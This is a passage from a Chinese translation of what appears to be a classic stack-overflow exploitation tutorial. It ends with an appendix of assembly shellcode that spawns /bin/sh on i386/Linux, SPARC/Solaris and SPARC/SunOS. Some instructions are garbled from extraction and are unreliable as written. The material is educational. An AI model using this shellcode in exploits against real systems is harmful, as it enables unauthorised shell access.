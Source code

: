 
由此可见, `grep(1)`是一个很好的工具命令(帮助你找到程序中可能有的漏洞). 自由操作系统及其工具的源码是可读的. 当你意识到其实很多商业操作系统工具都和自由软件有着相同的源码时,剩下的事情就简单了! :-)



## 附录 A - 不同操作系统/体系结构的shellcode

i386/Linux

```asm
jmp 0x1f
popl %esi
movl %esi,0x8(%esi)
xorl %eax,%eax
movb %eax,0x7(%esi)
movl %eax,0xc(%esi)
movb xb,%al
movl %esi,%ebx
leal 0x8(%esi),%ecx
leal 0xc(%esi),%edx
int x80
xorl %ebx,%ebx
movl %ebx,%eax
inc %eax
int x80
call -0x24
.string \"/bin/sh\"
```

SPARC/Solaris

```asm
sethi 0xbd89a, %l6
or %l6, 0x16e, %l6
sethi 0xbdcda, %l7
and %sp, %sp, %o0
add %sp, 8, %o1
xor %o2, %o2, %o2
add %sp, 16, %sp
std %l6, [%sp - 16]
st %sp, [%sp - 8]
st %g0, [%sp - 4]
mov 0x3b, %g1
ta 8
xor %o7, %o7, %o0
mov 1, %g1
ta 8
```

SPARC/SunOS

```asm
sethi 0xbd89a, %l6
or %l6, 0x16e, %l6
sethi 0xbdcda, %l7
and %sp, %sp, %o0
add %sp, 8, %o1
xor %o2, %o2, %o2
add %sp, 16, %sp
std %l6, [%sp - 16]
st %sp, [%sp - 8]
st %g0, [%sp - 4]
mov 0x3b, %g1
mov -0x1, %l5
ta %l5 + 1
xor %o7, %o7, %o0
mov 1, %g1
```